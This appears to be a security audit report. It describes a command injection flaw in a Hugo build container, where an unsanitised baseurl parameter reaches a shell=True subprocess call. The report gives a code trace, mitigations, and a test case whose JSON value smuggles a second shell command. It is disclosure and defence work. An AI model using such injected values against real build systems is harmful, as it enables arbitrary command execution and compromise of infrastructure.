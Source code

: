 ### Vulnerability List

- Vulnerability Name: Command Injection via `baseurl` in Hugo Builds
- Description:
    - An attacker can inject arbitrary commands into the build container by providing a malicious `baseurl` build argument when the site generator is set to `hugo`.
    - Step 1: The attacker crafts a malicious JSON payload for the build parameters, setting the `generator` to `hugo` and including a command injection payload within the `baseurl` parameter. For example, the `baseurl` could be set to `\"; touch /tmp/pwned; \"`.
    - Step 2: The attacker initiates a site build using this malicious JSON payload, either by providing it as a JSON string via the `-p` or `--params` flag, or as a JSON file via the `-f` or `--file` flag when running `main.py`.
    - Step 3: The `main.py` script parses the parameters and calls the `build()` function in `build.py` with these parameters.
    - Step 4: Inside `build()`, the code checks if the `generator` is `hugo`. If so, it calls the `build_hugo()` function.
    - Step 5: Within `build_hugo()`, the `baseurl` parameter, without proper sanitization, is incorporated into the `hugo_args` string using an f-string: `hugo_args += f' --baseURL {base_url}'`.
    - Step 6: This `hugo_args` string, now containing the injected command, is executed by the `run()` function in `src/runner/__init__.py` using `shell=True` because `node=True` is passed in the call.
    - Step 7: The shell interprets the injected command within `baseurl`, executes it, and in this example, creates a file named `pwned` in the `/tmp/` directory of the build container.
- Impact:
    - Critical. Successful command injection allows the attacker to execute arbitrary commands within the build container. This grants them full control over the container environment.
    - Potential impacts include:
        - Data exfiltration: Sensitive data within the build container or accessible AWS resources could be stolen.
        - Infrastructure compromise: The attacker could potentially pivot from the build container to compromise other parts of the cloud.gov Pages infrastructure.
        - Denial of Service: The attacker could disrupt the build process or the entire service.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - None. There is no input sanitization for the `baseurl` parameter before it is used in the Hugo command execution within the `build_hugo` function. While some parameters like `branch`, `owner`, and `repository` are quoted using `shlex.quote()` in `main.py`, `baseurl` is not.
- Missing Mitigations:
    - Input sanitization for the `baseurl` parameter is missing. Shell metacharacters within `baseurl` should be escaped or removed before constructing the Hugo command.
    - Alternatively, the code could avoid using `shell=True` when executing Hugo commands. Using the list form of arguments for `subprocess.Popen` would prevent shell interpretation of metacharacters.
- Preconditions:
    - The `generator` build argument must be set to `hugo`.
    - The attacker must be able to control the `baseurl` build argument. This is possible by crafting a malicious JSON payload for the `-p` or `-f` options when running the `main.py` script.
- Source Code Analysis:
    - File: `/code/src/main.py`
        ```python
        if __name__ == "__main__":
            # ...
            build(**kwargs)
        ```
        - The `main` function in `main.py` parses arguments and calls the `build` function in `build.py`. The `baseurl` parameter from user input is passed directly to the `build` function as part of `kwargs`.
    - File: `/code/src/build.py`
        ```python
        def build(
            # ...
            baseurl,
            generator,
            # ...
        ):
            # ...
            if generator == 'hugo':
                run_step(
                    build_hugo,
                    'There was a problem running Hugo, see the above logs for details.',
                    branch, owner, repository, site_prefix, baseurl, decrypted_uevs,
                )
            # ...

        def build_hugo(branch, owner, repository, site_prefix,
                   base_url='', user_env_vars=[]):
            # ...
            hugo_args = f'--source {CLONE_DIR_PATH} --destination {SITE_BUILD_DIR_PATH}'
            if base_url:
                hugo_args += f' --baseURL {base_url}'

            env = build_env(branch, owner, repository, site_prefix, base_url, user_env_vars)
            run(logger, f'{HUGO_BIN_PATH} {hugo_args}', cwd=CLONE_DIR_PATH, env=env, node=True)
        ```
        - The `build` function calls `build_hugo` when the generator is `hugo`.
        - In `build_hugo`, the `baseurl` parameter is directly embedded into the `hugo_args` string using an f-string without any sanitization.
        - The `run` function is called with `node=True`, which leads to `shell=True` execution.
    - File: `/code/src/runner/__init__.py`
        ```python
        def run(logger, command, cwd=None, env=None, shell=False, check=True, node=False, ruby=False, skip_log=False):  # noqa: E501
            # ...
            if ruby:
                command = f'source {RVM_PATH} && {command}'
                shell = True

            if node:
                command = f'source {NVM_PATH} && {command}'
                shell = True
            # ...
            p = subprocess.Popen(  # nosec
                command,
                cwd=cwd,
                env=env,
                shell=shell,
                executable=executable,
                stderr=subprocess.STDOUT,
                stdout=subprocess.PIPE,
                bufsize=1,
                encoding='utf-8',
                text=True,
                preexec_fn=setuser
            )
            # ...
        ```
        - The `run` function executes commands using `subprocess.Popen` with `shell=True` if `node=True` or `ruby=True`. This allows shell command injection if the `command` string is not properly sanitized.
- Security Test Case:
    - Step 1: Create a file named `exploit.json` in the `.local` directory (or any `/tmp/local` mounted directory if running with docker-compose) with the following JSON content:
        ```json
        {
          "aws_access_key_id": "dummy",
          "aws_secret_access_key": "dummy",
          "aws_default_region": "us-gov-west-1",
          "bucket": "dummy",
          "status_callback": "http://localhost:8989/status",
          "generator": "hugo",
          "owner": "cloud-gov",
          "repository": "pages-build-container",
          "branch": "main",
          "site_prefix": "test-site",
          "baseurl": "\"; touch /tmp/pwned; \""
        }
        ```
    - Step 2: Run the build container using docker-compose with the malicious JSON file as input:
        ```bash
        docker-compose run --rm app python main.py -f /tmp/local/exploit.json
        ```
    - Step 3: After the build container finishes (it might fail, but that's expected), access the shell of the running `app` container to verify command execution:
        ```bash
        docker-compose run --rm app bash
        ```
    - Step 4: Inside the container's shell, check if the file `/tmp/pwned` exists:
        ```bash
        ls /tmp/pwned
        ```
        - If a file named `pwned` is listed in `/tmp/`, it confirms that the command injection vulnerability via the `baseurl` parameter in Hugo builds is present.